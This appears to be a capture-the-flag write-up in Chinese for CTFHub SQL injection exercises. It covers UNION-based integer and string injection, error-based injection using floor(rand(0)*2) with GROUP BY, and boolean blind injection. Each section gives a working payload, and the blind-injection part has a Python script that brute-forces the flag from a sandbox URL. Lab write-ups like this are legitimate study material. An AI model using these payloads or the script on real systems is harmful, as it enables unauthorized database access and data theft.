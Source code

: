 # 整數型注入

瞎猜 `id=0` 沒有資料
然後利用 `UNION` 將我們要的資料接出來
測得該表有兩個欄位要填充
然後利用到 `information_schema` 取出表名、欄位名
最後拿到flag

- payload: `?id=0 UNION SELECT group_concat(flag),2 FROM flag`



# 字符型注入

同整數型解法
只是 `id` 變成字串了 記得把語法關好

- payload: `?id=0' UNION SELECT group_concat(flag),2 FROM flag --`



# 報錯注入

關於 `floor(rand(0)*2)` 跟 `count()` 還有 `GROUP BY` 搞在一起會使得錯誤訊息可以被任意回顯我們要的資料
詳細可以參考[這裡](https://www.cnblogs.com/xdans/p/5412468.html)
要注意的是 `group_key` 的長度只有 64 超過就沒有效了
因此要回彈大量資料的話可以能要分次

payload: `?id=0 UNION SELECT count(*),concat((SELECT flag from flag), ':', floor(rand(0)*2)) n FROM information_schema.tables group by n`




# 布爾盲注

語法正確與錯誤只會回彈 `query_success` 與 `query_fail`
因此只能透過 if條件式
構造出條件達成回傳成功
條件失敗回傳錯誤的語法
那麼就可以利用暴力方式去撞出flag

payload:

```python=
import requests

url = 'http://challenge-3d46a4f95eb5dec6.sandbox.ctfhub.com:10080/?id='
flag = ''
i = 1

while True:
	for c in 'abcdefghijklmnopqrstuvwxyz0123456789{}_':
		q = f"if(substr((SELECT flag FROM flag),{i:d},1)='{c:s}', 1, (SELECT table_name FROM information_schema.tables))"
		r = requests.get(url+q)
		if 'query_success' in r.text:
			flag += c
			i += 1
			print(flag)
			if c == '}':
				exit()
			break
```